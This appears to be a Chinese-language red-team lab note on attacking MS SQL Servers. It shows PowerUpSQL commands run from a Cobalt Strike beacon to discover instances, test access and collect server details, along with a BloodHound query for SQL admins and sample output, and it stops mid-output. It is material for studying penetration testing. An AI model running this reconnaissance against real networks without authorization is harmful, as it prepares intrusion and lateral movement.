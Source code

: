 # MS SQL Servers

MSSQL除了信息数据窃取以外还有很大的攻击面，包括：代码执行，权限提升，横向移动，权限维持

使用工具：[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)


查找MSSQL实例的cmdlets
```
Get-SQLInstanceDomain
Get-SQLInstanceBroadcast
Get-SQLInstanceScanUDP
```

例子:
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-SQLInstanceDomain

ComputerName     : srv-1.dev.cyberbotic.io
Instance         : srv-1.dev.cyberbotic.io,1433
DomainAccountSid : 15000005210002361191261941702819312113313089172110400
DomainAccount    : svc_mssql
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
LastLogon        : 5/14/2021 2:24 PM
Description      : 
```

BloodHound等价操作，甚至可以查找潜在的mssql管理员
```
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

``` Get-SQLConnectionTest```查找是否可以连接数据库
```
beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

ComputerName : srv-1.dev.cyberbotic.io
Instance     : srv-1.dev.cyberbotic.io,1433
Status       : Accessible
```

```Get-SQLServerInfo```命令收集更详细的连接实例信息
```
beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"

ComputerName           : srv-1.dev.cyberbotic.io
Instance               : SRV-1
DomainName             : DEV
ServiceProcessID       : 3960
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\svc_mssql
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 13.0.5026.0
SQLServerMajorVersion  : 2016
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : SP2
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer